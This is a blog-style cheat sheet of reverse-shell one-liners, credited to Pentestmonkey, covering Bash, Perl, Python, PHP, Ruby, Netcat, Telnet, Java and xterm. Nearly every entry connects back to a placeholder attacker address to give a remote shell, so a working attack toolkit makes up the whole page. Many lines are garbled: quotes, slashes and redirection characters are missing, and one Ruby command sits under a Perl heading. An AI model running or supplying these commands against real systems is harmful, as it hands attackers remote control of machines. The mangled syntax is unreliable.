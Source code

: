 ```yaml
---
layout: single
title: Reverse Shell Cheat Sheet
excerpt: "List of reverse shell commands."
date: 2020-04-28
classes: wide
header:
  teaser: /assets/images/rev-shell-cheat-sheet/rev-shell-001.png
  teaser_home_page: true
  icon: /assets/images/hacker-vector-6.png
categories:
  - cheat sheet
tags:
  - reverse shell
---
```


![](/assets/images/rev-shell-cheat-sheet/rev-shell-001.png)

## References
Pentestmonkey
- http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

## Bash

```
bash -i & devtcp10.0.0.18080 0&1
```

```
exec /bin/bash 0&0 2>&0
```

```
exec 5<>/dev/tcp/attackerip/4444
cat <&5 | while read line; do $line 2>&5 >&5; done  # or:
while read line 0<&5; do $line 2>&5 >&5; done
```

## PERL

```
perl -e 'use Socket;$i=10.0.0.1;$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname(tcp));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,&S);open(STDOUT,&S);open(STDERR,&S);exec(binsh -i);};'
```

```
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"attackerip:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

```
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"attackerip:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

## Python

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((10.0.0.1,1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([binsh,-i]);'
```

## PHP

```php
php -r '$sock=fsockopen(10.0.0.1,1234);exec(binsh -i &3 &3 2&3);'
```

## Ruby

```
ruby -rsocket -e'f=TCPSocket.open(10.0.0.1,1234).to_i;exec sprintf(binsh -i &%d &%d 2&%d,f,f,f)'
```

```
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

## PERL

```
ruby -rsocket -e'f=TCPSocket.open(10.0.0.1,1234).to_i;exec sprintf(binsh -i &%d &%d 2&%d,f,f,f)'
```

## Netcat

```
nc -e binsh 10.0.0.1 1234
```

```
nc -c /bin/sh attackerip 4444
```

```
/bin/sh | nc attackerip 4444
```

```
rm -f /tmp/p; mknod /tmp/p p && nc attackerip 4444 0/tmp/p
```

## Telnet

```
rm -f /tmp/p; mknod /tmp/p p && telnet attackerip 4444 0/tmp/p
```

```
telnet attackerip 4444 | /bin/bash | telnet attackerip 4445
```

## Java

```
r = Runtime.getRuntime()
p = r.exec([binbash,-c,exec 5devtcp10.0.0.12002;cat &5  while read line; do $line 2&5 &5; done] as String[])
p.waitFor()
```

## xterm

```
xterm -display 10.0.0.11
Xnest 1
```
